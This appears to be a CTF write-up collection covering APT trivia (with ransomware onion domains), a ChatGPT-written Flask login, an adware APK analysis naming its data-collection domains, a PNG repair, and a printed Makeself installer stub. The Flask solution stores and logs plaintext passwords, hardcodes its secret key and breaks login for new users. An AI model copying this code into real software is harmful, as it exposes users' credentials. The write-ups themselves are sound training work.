

# CSA_S2_2024
# CTF Writeups
## Writeups for the ADF Cyber Skills Association Season 2 challenges.

### Title of challenge here
Description - xxxxxxxxxxxxxxxxxxxxxxxxxxx
```
place any code here
```
Solution:
Plugged this straight into ChatGPT:
```
More code here for solution
```
:+1: FLAG{ENTER_FLAG_HERE}
<hr>

### APT Trivia
Description - Are you an APT connoisseur? Flag format:
FLAG{example-flag-here} Port: 1337

```
which country is volt typhoon from? china
which country is midnight blizzard from?  russia
which country is fancy bear from? 
what is the last name of the ransomware operator responsible for the 2023 medibank hack? ermakov
what is the fireeye APT number for Wicked Panda? 41
which ransomware team is responsible for the 2023 TSMC breach? lockbit ransomware gang? national hazard agency
what is the onion domain of the alphv ransomware gang as of 2024? alphvuzxyxv6ylumd2ngp46xzq3pw6zflomrghvxeuks6kklberrbmyd.onion
what is the onion domain of the lockbit gang that contains the string apt34? lockbitapt34kvrip6xojylohhxrwsvpzdffgs5z4pbbsywnzsbdguqd.onion
what is the clearewb domain of the deceased conti ransomware gang with the two-letter TLD? continews.bz
```

:+1: FLAG{you-are-now-an-apt-connoisseur}
<hr>

### auth user api
Description - My REST API needs authentication built in to stop bad people from accessing my user data.

Please implement authentication by:
* adding a field "password" into the database schema.
* finish the endpoint at /users/auth that takes a JSON input (username and password) and check it against the database. if success, return HTTP status 200 and utilize the built in session handling in flask to authenticate the user. Otherwise return status 403.
* check that a user is authenticated before allowing any action from the other api endpoints. if not authenticated, return http status 401
* When you're done, set the test user's password to test123 and provide us with your URL for testing.

Flag format: FLAG{your-Fl4g-G03s-here}

This was the provided code
```
#!/usr/bin/env python3
from flask import Flask, request, jsonify, session
import os
import sqlite3
app = Flask(__name__)

db = sqlite3.connect(":memory:", check_same_thread=False)
db.row_factory = sqlite3.Row
cur = db.cursor()
cur.execute("CREATE TABLE IF NOT EXISTS users (username TEXT, details TEXT)")
cur.execute("INSERT INTO users values('test', 'test user')")
app.secret_key = "i8y7g2uhjkadjfaklsdfasdf"

@app.route("/users/auth", methods=["POST"])
def auth_users():
    d = request.json()
    username, password = d['username'], d['password']
    # TODO finish auth


@app.route("/users/add", methods=["POST"])
def add_user():
    d = request.json()
    username = d["username"]
    # TODO add password
    details = d["details"]
    cur = db.cursor()
    cur.execute("INSERT INTO users values(?, ?)", (username, details))
    db.commit()
    return jsonify({"status":"OK"})


@app.route("/users/<username>")
def check_user(username):
    cur = db.cursor()
    cur.execute("SELECT * FROM users WHERE username = ?", (username,))
    row = cur.fetchone()
    return jsonify(dict(row))


if __name__ == '__main__':
    if os.getenv("TERM_PROGRAM"): # localhost debug
         app.run(host='0.0.0.0', port=5000, debug=True)
    app.run(host='0.0.0.0', port=5000)

```
Solution:
Plugged this straight into ChatGPT:
```
#!/usr/bin/env python3
from flask import Flask, request, jsonify, session
import os
import sqlite3

app = Flask(__name__)
app.secret_key = "i8y7g2uhjkadjfaklsdfasdf"

# In-memory database initialization
db = sqlite3.connect(":memory:", check_same_thread=False)
db.row_factory = sqlite3.Row
cur = db.cursor()
cur.execute("CREATE TABLE IF NOT EXISTS users (username TEXT, password TEXT, details TEXT)")
# Clear all users from the 'user' table
cur.execute("DELETE FROM users;")
cur.execute("INSERT INTO users (username, password, details) VALUES (?, ?, ?)", ("test", "test123", "test user"))
#cur.execute("INSERT INTO users (username, password, details) VALUES (?, ?, ?)", ("bob", "bob123", "test user"))
db.commit()

# Authentication decorator
def require_auth(func):
    def wrapper(*args, **kwargs):
        if 'username' not in session:
            return jsonify({"error": "Unauthorized"}), 401
        return func(*args, **kwargs)
    return wrapper

@app.route("/users/auth", methods=["POST"])
def auth_users():
    data = request.json
    username, password = data.get('username'), data.get('password')
#    print("Username to be authenticated is: ",username," against password of: ",password)
    if not username or not password:
        return jsonify({"error": "Username or password missing"}), 400

    cur = db.cursor()
    cur.execute("SELECT * FROM users WHERE username = ?", (username,))
    user = cur.fetchone()
#    print("The user is:",str(user['username']))
    if user:
        stored_password = str(user['password'])  # Convert stored password to string
        provided_password = str(password)  # Convert provided password to string
#        provided_password = password.replace('NOTBOB', '').strip()
        print("The provided password is: ",provided_password)
        print("Retrieved user:", dict(user))  # Print retrieved user information
        print("Retrieved password:", stored_password)  # Print retrieved password
        if stored_password == provided_password:  # Compare passwords
            print("Session: ",session)
            session['username'] = username
            return jsonify({"status": "OK"}), 200
    return jsonify({"error": "Invalid credentials"}), 401

@app.route("/users/add", methods=["POST"])
def add_user():
    data = request.json
    username = data.get("username")
    password = data.get("password") + 'NOTBOB'
    print("The retrieved username is: ",username, " and the retrieved password is: ",password)
    details = data.get("details")
    print("New user details are: ",details)
    if not username or not password:
        return jsonify({"error": "Username or password missing"}), 400

    cur = db.cursor()
    cur.execute("INSERT INTO users (username, password, details) VALUES (?, ?, ?)", (username, password, details))
    db.commit()

    # Authenticate the user immediately after account creation
    session['username'] = username
    print("Session after adding user:", session)

    return jsonify({"status": "OK"})

@app.route("/users/<username>")
@require_auth
def check_user(username):
    print("Session in check_user:", session)  # Debug: Print session information
    cur = db.cursor()
    cur.execute("SELECT * FROM users WHERE username = ?", (username,))
    row = cur.fetchone()
    if not row:
        return jsonify({"error": "User not found"}), 404
    return jsonify(dict(row))

if __name__ == '__main__':
    if os.getenv("TERM_PROGRAM"): # localhost debug
         app.run(host='0.0.0.0', port=5000, debug=True)
    app.run(host='0.0.0.0', port=5000)

```
:+1: FLAG{you-better-h4sh-that-password}
<hr>

### Bad APK
Description - 
---------- MALWARE ALERT ---------------
DO NOT RUN THIS APP ON YOUR PHONE.
Static analysis should be sufficient for this challenge.
------------------------------------
The security team has received reports that one of our corporate android devices had an application installed that was recently taken down from the play store. It seems like one of our managers installed a random game that has excessive permissions... again.

While disciplinary actions are awaiting, we ask you to analyse this application for us for potential security impact.

What is the fully qualified name of the app package? (format com.example.publisher.myapp)

What permissions (full permission names) do the app request in relation to the phone's browser? (2 strings, in order of appearance)

What domain does it exfiltrate the user's email address to? (2 dots in string)

What is the domain of the mobile advertisement platform that the app sends the user's location data to? (2 dots in string)

put all pieces of information in a file, carefully with no spaces in the end of each line (there should be 5 lines in total):

com.example.publisher.myapp
permission1
permission2
xyz.example1.com
xyz.example2.com
and hash the file using sha256 like so:

sha256sum answers.txt
then wrap the hash in FLAG{}, like FLAG{sha256}

the correct answer should have this wc output:

$ wc answers.txt 
  5   5 187 answers.txt
and the correct hash should end with 33

Solution:
I used apktool and Android Studio for this one
apktool extract the AndroidManifest.xml file
```
<?xml version="1.0" encoding="utf-8" standalone="no"?><manifest xmlns:android="http://schemas.android.com/apk/res/android" android:installLocation="auto" package="google.com.boxitsoft.superhockeyglow1" platformBuildVersionCode="27" platformBuildVersionName="8.1.0">
    <application android:icon="@drawable/icon" android:label="@string/app_name" android:theme="@android:style/Theme.NoTitleBar.Fullscreen">
        <activity android:configChanges="keyboardHidden|locale|orientation" android:label="@string/app_name" android:launchMode="singleTask" android:name=".Main">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>
        <activity android:configChanges="keyboardHidden|orientation" android:name="google.com.airpush.android.PushAds"/>
        <receiver android:name="google.com.airpush.android.UserDetailsReceiver"/>
        <receiver android:name="google.com.airpush.android.MessageReceiver"/>
        <receiver android:name="google.com.airpush.android.DeliveryReceiver"/>
        <service android:name="google.com.airpush.android.PushService">
            <intent-filter>
                <action android:name="google.com.airpush.android.PushServiceStart46673"/>
            </intent-filter>
        </service>
        <receiver android:exported="true" android:name="google.com.google.android.apps.analytics.AnalyticsReceiver">
            <intent-filter>
                <action android:name="com.android.vending.INSTALL_REFERRER"/>
            </intent-filter>
        </receiver>
        <receiver android:name="google.com.Leadbolt.AdNotification"/>
        <receiver android:name="google.com.Leadbolt.AdNotification"/>
        <receiver android:name="google.com.boxitsoft.BootReceiver">
            <intent-filter>
                <action android:name="android.intent.action.BOOT_COMPLETED"/>
            </intent-filter>
        </receiver>
        <service android:enabled="true" android:name="google.com.apperhand.device.android.AndroidSDKProvider"/>
        <service android:enabled="true" android:name="google.com.boxitsoft.ServiceTemplate"/>
        <receiver android:name="google.com.boxitsoft.MyStartServiceReceiver"/>
    </application>
    <uses-permission android:name="android.permission.WAKE_LOCK"/>
    <uses-permission android:name="android.permission.READ_PHONE_STATE"/>
    <uses-permission android:name="android.permission.SET_ORIENTATION"/>
    <uses-permission android:name="android.permission.DEVICE_POWER"/>
    <uses-permission android:name="android.permission.INTERNET"/>
    <uses-permission android:name="android.permission.ACCESS_NETWORK_STATE"/>
    <uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED"/>
    <uses-permission android:name="android.permission.ACCESS_WIFI_STATE"/>
    <uses-permission android:name="com.android.browser.permission.WRITE_HISTORY_BOOKMARKS"/>
    <uses-permission android:name="com.android.browser.permission.READ_HISTORY_BOOKMARKS"/>
    <uses-permission android:name="com.android.launcher.permission.INSTALL_SHORTCUT"/>
    <uses-permission android:name="com.android.launcher.permission.UNINSTALL_SHORTCUT"/>
    <uses-permission android:name="com.android.launcher.permission.READ_SETTINGS"/>
    <uses-permission android:name="com.htc.launcher.permission.READ_SETTINGS"/>
    <uses-permission android:name="com.motorola.launcher.permission.READ_SETTINGS"/>
    <uses-permission android:name="com.motorola.dlauncher.permission.READ_SETTINGS"/>
    <uses-permission android:name="com.fede.launcher.permission.READ_SETTINGS"/>
    <uses-permission android:name="com.lge.launcher.permission.READ_SETTINGS"/>
    <uses-permission android:name="org.adw.launcher.permission.READ_SETTINGS"/>
    <uses-permission android:name="com.motorola.launcher.permission.INSTALL_SHORTCUT"/>
    <uses-permission android:name="com.motorola.dlauncher.permission.INSTALL_SHORTCUT"/>
    <uses-permission android:name="com.lge.launcher.permission.INSTALL_SHORTCUT"/>
    <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION"/>
    <uses-permission android:name="android.permission.ACCESS_COARSE_LOCATION"/>
</manifest>
```

From there, the package name is listed as package="google.com.boxitsoft.superhockeyglow1"
The browser permissions were fairly obvious -
    <uses-permission android:name="com.android.browser.permission.WRITE_HISTORY_BOOKMARKS"/>
    <uses-permission android:name="com.android.browser.permission.READ_HISTORY_BOOKMARKS"/>

google.com.boxitsoft.superhockeyglow1
com.android.browser.permission.WRITE_HISTORY_BOOKMARKS
com.android.browser.permission.READ_HISTORY_BOOKMARKS
www.latinsoulstudio.com
api.airpush.com

Running sha256sum on the file produces the correct hash - 2eed6e3a0add5740e8c052d7001ca9d74e633e04e77560608194354d154a1d33

:+1: FLAG{2eed6e3a0add5740e8c052d7001ca9d74e633e04e77560608194354d154a1d33}
<hr>

### Bad png (FIRST BLOOD)
Description - My bad wizard friend cast a spell on my phone and
corrupted one of my precious pictures. Can you
help me fix it? flag format:
FLAG{ENTER_YOUR_FLAG_HERE}

Solution
Opened the image in hexed.it and noticed the magic bytes were incorrect

Fixed them to read
```
89 50 4E 47 0D 0A 1A 0A
```
The file was still corrupt so I uploaded it into https://www.nayuki.io/page/png-file-chunk-inspector
and noticed a lot of CRC-32 mismatches

I also noticed that where the IDAT data should normally be, it was filled with HAXX

Back to hexed.it and did a find/replace on HAXX to IDAT. Exported the file, opened it and voila, the flag.

:+1: FLAG{IMAGIO_REPARO}
<hr>

### Bee Cauldron
Description - I made a honeypot and it finally got a hit! There was some file in the logs called "fun.run", but it looks like it deleted itself. Can you recover the malware for me? 
Flag format: FLAG{bee-couldron}

Solution:
The zip file contained a qcow2 disk image, that when run up was a busybox instance.
After spending some time not getting anywhere with the image spun up in a VM, I opened it in a hexeditor and went looking.

After a while, I noticed there was something referring to Makeself and after some research, it turned out to be an obfuscated bash script.

More reading here (https://www.baeldung.com/linux/bash-obfuscate-script) and here (https://github.com/megastep/makeself)

The key here is to identify the filesize of the makeself.sh binary in order to extract the correct sized file.

In this case, the file size was 5780399 and could be seen in the hexdump. According to the reading, this filesize is of the embedded binary, not including the
makeself.sh script itself.

This was the actual script that preceded the obfuscated binary.

```
#!/bin/sh
# This script was generated using Makeself 2.5.0
# The license covering this archive and its contents, if any, is wholly independent of the Makeself license (GPL)

ORIG_UMASK=`umask`
if test "n" = n; then
    umask 077
fi

CRCsum="167520874"
MD5="1bebb2400b1030843563ec7543516030"
SHA="0000000000000000000000000000000000000000000000000000000000000000"
SIGNATURE=""
TMPROOT=${TMPDIR:=/tmp}
USER_PWD="$PWD"
export USER_PWD
ARCHIVE_DIR=`dirname "$0"`
export ARCHIVE_DIR

label="testlabel"
script="./start.sh"
scriptargs=""
cleanup_script=""
licensetxt=""
helpheader=""
targetdir="dist"
filesizes="5780399"
totalsize="5780399"
keep="n"
nooverwrite="n"
quiet="n"
accept="n"
nodiskspace="n"
export_conf="n"
decrypt_cmd=""
skip="714"

print_cmd_arg=""
if type printf > /dev/null; then
    print_cmd="printf"
elif test -x /usr/ucb/echo; then
    print_cmd="/usr/ucb/echo"
else
    print_cmd="echo"
fi

if test -d /usr/xpg4/bin; then
    PATH=/usr/xpg4/bin:$PATH
    export PATH
fi

if test -d /usr/sfw/bin; then
    PATH=$PATH:/usr/sfw/bin
    export PATH
fi

unset CDPATH

MS_Printf()
{
    $print_cmd $print_cmd_arg "$1"
}

MS_PrintLicense()
{
  PAGER=${PAGER:=more}
  if test x"$licensetxt" != x; then
    PAGER_PATH=`exec <&- 2>&-; which $PAGER || command -v $PAGER || type $PAGER`
    if test -x "$PAGER_PATH"; then
      echo "$licensetxt" | $PAGER
    else
      echo "$licensetxt"
    fi
    if test x"$accept" != xy; then
      while true
      do
        MS_Printf "Please type y to accept, n otherwise: "
        read yn
        if test x"$yn" = xn; then
          keep=n
          eval $finish; exit 1
          break;
        elif test x"$yn" = xy; then
          break;
        fi
      done
    fi
  fi
}

MS_diskspace()
{
    (
    df -k "$1" | tail -1 | awk '{ if ($4 ~ /%/) {print $3} else {print $4} }'
    )
}

MS_dd()
{
    blocks=`expr $3 / 1024`
    bytes=`expr $3 % 1024`
    # Test for ibs, obs and conv feature
    if dd if=/dev/zero of=/dev/null count=1 ibs=512 obs=512 conv=sync 2> /dev/null; then
        dd if="$1" ibs=$2 skip=1 obs=1024 conv=sync 2> /dev/null | \
        { test $blocks -gt 0 && dd ibs=1024 obs=1024 count=$blocks ; \
          test $bytes  -gt 0 && dd ibs=1 obs=1024 count=$bytes ; } 2> /dev/null
    else
        dd if="$1" bs=$2 skip=1 2> /dev/null
    fi
}

MS_dd_Progress()
{
    if test x"$noprogress" = xy; then
        MS_dd "$@"
        return $?
    fi
    file="$1"
    offset=$2
    length=$3
    pos=0
    bsize=4194304
    while test $bsize -gt $length; do
        bsize=`expr $bsize / 4`
    done
    blocks=`expr $length / $bsize`
    bytes=`expr $length % $bsize`
    (
        dd ibs=$offset skip=1 count=1 2>/dev/null
        pos=`expr $pos \+ $bsize`
        MS_Printf "     0%% " 1>&2
        if test $blocks -gt 0; then
            while test $pos -le $length; do
                dd bs=$bsize count=1 2>/dev/null
                pcent=`expr $length / 100`
                pcent=`expr $pos / $pcent`
                if test $pcent -lt 100; then
                    MS_Printf "\b\b\b\b\b\b\b" 1>&2
                    if test $pcent -lt 10; then
                        MS_Printf "    $pcent%% " 1>&2
                    else
                        MS_Printf "   $pcent%% " 1>&2
                    fi
                fi
                pos=`expr $pos \+ $bsize`
            done
        fi
        if test $bytes -gt 0; then
            dd bs=$bytes count=1 2>/dev/null
        fi
        MS_Printf "\b\b\b\b\b\b\b" 1>&2
        MS_Printf " 100%%  " 1>&2
    ) < "$file"
}

MS_Help()
{
    cat << EOH >&2
Makeself version 2.5.0
 1) Getting help or info about $0 :
  $0 --help   Print this message
  $0 --info   Print embedded info : title, default target directory, embedded script ...
  $0 --lsm    Print embedded lsm entry (or no LSM)
  $0 --list   Print the list of files in the archive
  $0 --check  Checks integrity of the archive
  $0 --verify-sig key Verify signature agains a provided key id

 2) Running $0 :
  $0 [options] [--] [additional arguments to embedded script]
  with following options (in that order)
  --confirm             Ask before running embedded script
  --quiet               Do not print anything except error messages
  --accept              Accept the license
  --noexec              Do not run embedded script (implies --noexec-cleanup)
  --noexec-cleanup      Do not run embedded cleanup script
  --keep                Do not erase target directory after running
                        the embedded script
  --noprogress          Do not show the progress during the decompression
  --nox11               Do not spawn an xterm
  --nochown             Do not give the target folder to the current user
  --chown               Give the target folder to the current user recursively
  --nodiskspace         Do not check for available disk space
  --target dir          Extract directly to a target directory (absolute or relative)
                        This directory may undergo recursive chown (see --nochown).
  --tar arg1 [arg2 ...] Access the contents of the archive through the tar command
  --ssl-pass-src src    Use the given src as the source of password to decrypt the data
                        using OpenSSL. See "PASS PHRASE ARGUMENTS" in man openssl.
                        Default is to prompt the user to enter decryption password
                        on the current terminal.
  --cleanup-args args   Arguments to the cleanup script. Wrap in quotes to provide
                        multiple arguments.
  --                    Following arguments will be passed to the embedded script${helpheader}
EOH
}

MS_Verify_Sig()
{
    GPG_PATH=`exec <&- 2>&-; which gpg || command -v gpg || type gpg`
    MKTEMP_PATH=`exec <&- 2>&-; which mktemp || command -v mktemp || type mktemp`
    test -x "$GPG_PATH" || GPG_PATH=`exec <&- 2>&-; which gpg || command -v gpg || type gpg`
    test -x "$MKTEMP_PATH" || MKTEMP_PATH=`exec <&- 2>&-; which mktemp || command -v mktemp || type mktemp`
    offset=`head -n "$skip" "$1" | wc -c | sed "s/ //g"`
    temp_sig=`mktemp -t XXXXX`
    echo $SIGNATURE | base64 --decode > "$temp_sig"
    gpg_output=`MS_dd "$1" $offset $totalsize | LC_ALL=C "$GPG_PATH" --verify "$temp_sig" - 2>&1`
    gpg_res=$?
    rm -f "$temp_sig"
    if test $gpg_res -eq 0 && test `echo $gpg_output | grep -c Good` -eq 1; then
        if test `echo $gpg_output | grep -c $sig_key` -eq 1; then
            test x"$quiet" = xn && echo "GPG signature is good" >&2
        else
            echo "GPG Signature key does not match" >&2
            exit 2
        fi
    else
        test x"$quiet" = xn && echo "GPG signature failed to verify" >&2
        exit 2
    fi
}

MS_Check()
{
    OLD_PATH="$PATH"
    PATH=${GUESS_MD5_PATH:-"$OLD_PATH:/bin:/usr/bin:/sbin:/usr/local/ssl/bin:/usr/local/bin:/opt/openssl/bin"}
    MD5_ARG=""
    MD5_PATH=`exec <&- 2>&-; which md5sum || command -v md5sum || type md5sum`
    test -x "$MD5_PATH" || MD5_PATH=`exec <&- 2>&-; which md5 || command -v md5 || type md5`
    test -x "$MD5_PATH" || MD5_PATH=`exec <&- 2>&-; which digest || command -v digest || type digest`
    PATH="$OLD_PATH"

    SHA_PATH=`exec <&- 2>&-; which shasum || command -v shasum || type shasum`
    test -x "$SHA_PATH" || SHA_PATH=`exec <&- 2>&-; which sha256sum || command -v sha256sum || type sha256sum`

    if test x"$quiet" = xn; then
        MS_Printf "Verifying archive integrity..."
    fi
    offset=`head -n "$skip" "$1" | wc -c | sed "s/ //g"`
    fsize=`cat "$1" | wc -c | sed "s/ //g"`
    if test $totalsize -ne `expr $fsize - $offset`; then
        echo " Unexpected archive size." >&2
        exit 2
    fi
    verb=$2
    i=1
    for s in $filesizes
    do
        crc=`echo $CRCsum | cut -d" " -f$i`
        if test -x "$SHA_PATH"; then
            if test x"`basename $SHA_PATH`" = xshasum; then
                SHA_ARG="-a 256"
            fi
            sha=`echo $SHA | cut -d" " -f$i`
            if test x"$sha" = x0000000000000000000000000000000000000000000000000000000000000000; then
                test x"$verb" = xy && echo " $1 does not contain an embedded SHA256 checksum." >&2
            else
                shasum=`MS_dd_Progress "$1" $offset $s | eval "$SHA_PATH $SHA_ARG" | cut -b-64`;
                if test x"$shasum" != x"$sha"; then
                    echo "Error in SHA256 checksums: $shasum is different from $sha" >&2
                    exit 2
                elif test x"$quiet" = xn; then
                    MS_Printf " SHA256 checksums are OK." >&2
                fi
                crc="0000000000";
            fi
        fi
        if test -x "$MD5_PATH"; then
            if test x"`basename $MD5_PATH`" = xdigest; then
                MD5_ARG="-a md5"
            fi
            md5=`echo $MD5 | cut -d" " -f$i`
            if test x"$md5" = x00000000000000000000000000000000; then
                test x"$verb" = xy && echo " $1 does not contain an embedded MD5 checksum." >&2
            else
                md5sum=`MS_dd_Progress "$1" $offset $s | eval "$MD5_PATH $MD5_ARG" | cut -b-32`;
                if test x"$md5sum" != x"$md5"; then
                    echo "Error in MD5 checksums: $md5sum is different from $md5" >&2
                    exit 2
                elif test x"$quiet" = xn; then
                    MS_Printf " MD5 checksums are OK." >&2
                fi
                crc="0000000000"; verb=n
            fi
        fi
        if test x"$crc" = x0000000000; then
            test x"$verb" = xy && echo " $1 does not contain a CRC checksum." >&2
        else
            sum1=`MS_dd_Progress "$1" $offset $s | CMD_ENV=xpg4 cksum | awk '{print $1}'`
            if test x"$sum1" != x"$crc"; then
                echo "Error in checksums: $sum1 is different from $crc" >&2
                exit 2
            elif test x"$quiet" = xn; then
                MS_Printf " CRC checksums are OK." >&2
            fi
        fi
        i=`expr $i + 1`
        offset=`expr $offset + $s`
    done
    if test x"$quiet" = xn; then
        echo " All good."
    fi
}

MS_Decompress()
{
    if test x"$decrypt_cmd" != x""; then
        { eval "$decrypt_cmd" || echo " ... Decryption failed." >&2; } | eval "gzip -cd"
    else
        eval "gzip -cd"
    fi

    if test $? -ne 0; then
        echo " ... Decompression failed." >&2
    fi
}

UnTAR()
{
    if test x"$quiet" = xn; then
        tar $1vf -  2>&1 || { echo " ... Extraction failed." >&2; kill -15 $$; }
    else
        tar $1f -  2>&1 || { echo Extraction failed. >&2; kill -15 $$; }
    fi
}

MS_exec_cleanup() {
    if test x"$cleanup" = xy && test x"$cleanup_script" != x""; then
        cleanup=n
        cd "$tmpdir"
        eval "\"$cleanup_script\" $scriptargs $cleanupargs"
    fi
}

MS_cleanup()
{
    echo 'Signal caught, cleaning up' >&2
    MS_exec_cleanup
    cd "$TMPROOT"
    rm -rf "$tmpdir"
    eval $finish; exit 15
}

finish=true
xterm_loop=
noprogress=n
nox11=n
copy=none
ownership=n
verbose=n
cleanup=y
cleanupargs=
sig_key=

initargs="$@"

while true
do
    case "$1" in
    -h | --help)
    MS_Help
    exit 0
    ;;
    -q | --quiet)
    quiet=y
    noprogress=y
    shift
    ;;
    --accept)
    accept=y
    shift
    ;;
    --info)
    echo Identification: "$label"
    echo Target directory: "$targetdir"
    echo Uncompressed size: 5700 KB
    echo Compression: gzip
    if test x"n" != x""; then
        echo Encryption: n
    fi
    echo Date of packaging: Fri Mar  1 12:18:18 AEST 2024
    echo Built with Makeself version 2.5.0
    echo Build command was: "/home/h/bin/makeself.sh \\
    \"dist\" \\
    \"fun.run\" \\
    \"testlabel\" \\
    \"./start.sh\""
    if test x"$script" != x; then
        echo Script run after extraction:
        echo "    " $script $scriptargs
    fi
    if test x"" = xcopy; then
        echo "Archive will copy itself to a temporary location"
    fi
    if test x"n" = xy; then
        echo "Root permissions required for extraction"
    fi
    if test x"n" = xy; then
        echo "directory $targetdir is permanent"
    else
        echo "$targetdir will be removed after extraction"
    fi
    exit 0
    ;;
    --dumpconf)
    echo LABEL=\"$label\"
    echo SCRIPT=\"$script\"
    echo SCRIPTARGS=\"$scriptargs\"
    echo CLEANUPSCRIPT=\"$cleanup_script\"
    echo archdirname=\"dist\"
    echo KEEP=n
    echo NOOVERWRITE=n
    echo COMPRESS=gzip
    echo filesizes=\"$filesizes\"
    echo totalsize=\"$totalsize\"
    echo CRCsum=\"$CRCsum\"
    echo MD5sum=\"$MD5sum\"
    echo SHAsum=\"$SHAsum\"
    echo SKIP=\"$skip\"
    exit 0
    ;;
    --lsm)
cat << EOLSM
No LSM.
EOLSM
    exit 0
    ;;
    --list)
    echo Target directory: $targetdir
    offset=`head -n "$skip" "$0" | wc -c | sed "s/ //g"`
    for s in $filesizes
    do
        MS_dd "$0" $offset $s | MS_Decompress | UnTAR t
        offset=`expr $offset + $s`
    done
    exit 0
    ;;
    --tar)
    offset=`head -n "$skip" "$0" | wc -c | sed "s/ //g"`
    arg1="$2"
    shift 2 || { MS_Help; exit 1; }
    for s in $filesizes
    do
        MS_dd "$0" $offset $s | MS_Decompress | tar "$arg1" - "$@"
        offset=`expr $offset + $s`
    done
    exit 0
    ;;
    --check)
    MS_Check "$0" y
    exit 0
    ;;
    --verify-sig)
    sig_key="$2"
    shift 2 || { MS_Help; exit 1; }
    MS_Verify_Sig "$0"
    ;;
    --confirm)
    verbose=y
    shift
    ;;
    --noexec)
    script=""
    cleanup_script=""
    shift
    ;;
    --noexec-cleanup)
    cleanup_script=""
    shift
    ;;
    --keep)
    keep=y
    shift
    ;;
    --target)
    keep=y
    targetdir="${2:-.}"
    shift 2 || { MS_Help; exit 1; }
    ;;
    --noprogress)
    noprogress=y
    shift
    ;;
    --nox11)
    nox11=y
    shift
    ;;
    --nochown)
    ownership=n
    shift
    ;;
    --chown)
        ownership=y
        shift
        ;;
    --nodiskspace)
    nodiskspace=y
    shift
    ;;
    --xwin)
    if test "n" = n; then
        finish="echo Press Return to close this window...; read junk"
    fi
    xterm_loop=1
    shift
    ;;
    --phase2)
    copy=phase2
    shift
    ;;
    --ssl-pass-src)
    if test x"n" != x"openssl"; then
        echo "Invalid option --ssl-pass-src: $0 was not encrypted with OpenSSL!" >&2
        exit 1
    fi
    decrypt_cmd="$decrypt_cmd -pass $2"
    shift 2 || { MS_Help; exit 1; }
    ;;
    --cleanup-args)
    cleanupargs="$2"
    shift 2 || { MS_Help; exit 1; }
    ;;
    --)
    shift
    break ;;
    -*)
    echo Unrecognized flag : "$1" >&2
    MS_Help
    exit 1
    ;;
    *)
    break ;;
    esac
done

if test x"$quiet" = xy -a x"$verbose" = xy; then
    echo Cannot be verbose and quiet at the same time. >&2
    exit 1
fi

if test x"n" = xy -a `id -u` -ne 0; then
    echo "Administrative privileges required for this archive (use su or sudo)" >&2
    exit 1
fi

if test x"$copy" \!= xphase2; then
    MS_PrintLicense
fi

case "$copy" in
copy)
    tmpdir="$TMPROOT"/makeself.$RANDOM.`date +"%y%m%d%H%M%S"`.$$
    mkdir "$tmpdir" || {
    echo "Could not create temporary directory $tmpdir" >&2
    exit 1
    }
    SCRIPT_COPY="$tmpdir/makeself"
    echo "Copying to a temporary location..." >&2
    cp "$0" "$SCRIPT_COPY"
    chmod +x "$SCRIPT_COPY"
    cd "$TMPROOT"
    export USER_PWD="$tmpdir"
    exec "$SCRIPT_COPY" --phase2 -- $initargs
    ;;
phase2)
    finish="$finish ; rm -rf `dirname $0`"
    ;;
esac

if test x"$nox11" = xn; then
    if test -t 1; then  # Do we have a terminal on stdout?
    :
    else
        if test x"$DISPLAY" != x -a x"$xterm_loop" = x; then  # No, but do we have X?
            if xset q > /dev/null 2>&1; then # Check for valid DISPLAY variable
                GUESS_XTERMS="xterm gnome-terminal rxvt dtterm eterm Eterm xfce4-terminal lxterminal kvt konsole aterm terminology"
                for a in $GUESS_XTERMS; do
                    if type $a >/dev/null 2>&1; then
                        XTERM=$a
                        break
                    fi
                done
                chmod a+x $0 || echo Please add execution rights on $0 >&2
                if test `echo "$0" | cut -c1` = "/"; then # Spawn a terminal!
                    exec $XTERM -e "$0 --xwin $initargs"
                else
                    exec $XTERM -e "./$0 --xwin $initargs"
                fi
            fi
        fi
    fi
fi

if test x"$targetdir" = x.; then
    tmpdir="."
else
    if test x"$keep" = xy; then
    if test x"$nooverwrite" = xy && test -d "$targetdir"; then
            echo "Target directory $targetdir already exists, aborting." >&2
            exit 1
    fi
    if test x"$quiet" = xn; then
        echo "Creating directory $targetdir" >&2
    fi
    tmpdir="$targetdir"
    dashp="-p"
    else
    tmpdir="$TMPROOT/selfgz$$$RANDOM"
    dashp=""
    fi
    mkdir $dashp "$tmpdir" || {
    echo 'Cannot create target directory' $tmpdir >&2
    echo 'You should try option --target dir' >&2
    eval $finish
    exit 1
    }
fi

location="`pwd`"
if test x"$SETUP_NOCHECK" != x1; then
    MS_Check "$0"
fi
offset=`head -n "$skip" "$0" | wc -c | sed "s/ //g"`

if test x"$verbose" = xy; then
    MS_Printf "About to extract 5700 KB in $tmpdir ... Proceed ? [Y/n] "
    read yn
    if test x"$yn" = xn; then
        eval $finish; exit 1
    fi
fi

if test x"$quiet" = xn; then
    # Decrypting with openssl will ask for password,
    # the prompt needs to start on new line
    if test x"n" = x"openssl"; then
        echo "Decrypting and uncompressing $label..."
    else
        MS_Printf "Uncompressing $label"
    fi
fi
res=3
if test x"$keep" = xn; then
    trap MS_cleanup 1 2 3 15
fi

if test x"$nodiskspace" = xn; then
    leftspace=`MS_diskspace "$tmpdir"`
    if test -n "$leftspace"; then
        if test "$leftspace" -lt 5700; then
            echo
            echo "Not enough space left in "`dirname $tmpdir`" ($leftspace KB) to decompress $0 (5700 KB)" >&2
            echo "Use --nodiskspace option to skip this check and proceed anyway" >&2
            if test x"$keep" = xn; then
                echo "Consider setting TMPDIR to a directory with more free space."
            fi
            eval $finish; exit 1
        fi
    fi
fi

for s in $filesizes
do
    if MS_dd_Progress "$0" $offset $s | MS_Decompress | ( cd "$tmpdir"; umask $ORIG_UMASK ; UnTAR xp ) 1>/dev/null; then
        if test x"$ownership" = xy; then
            (cd "$tmpdir"; chown -R `id -u` .;  chgrp -R `id -g` .)
        fi
    else
        echo >&2
        echo "Unable to decompress $0" >&2
        eval $finish; exit 1
    fi
    offset=`expr $offset + $s`
done
